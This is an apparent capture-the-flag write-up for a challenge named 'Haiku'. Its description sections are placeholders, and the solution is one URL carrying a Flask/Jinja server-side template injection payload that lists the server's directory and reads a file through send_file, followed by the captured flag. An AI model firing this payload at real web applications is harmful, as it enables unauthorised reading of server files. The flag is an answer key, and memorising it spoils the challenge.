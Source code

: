 # **Haiku**
description ....
## **About the challenge**
description
## **Solution**
bla bla bla

```http://103.167.136.89:10001/{{get_flashed_messages.__globals__.send_file(lipsum.__globals__.os.listdir().pop(1)).response.file.read()}}```

```ForestyHC{roses_are_red_violets_are_blue_b34b48}```
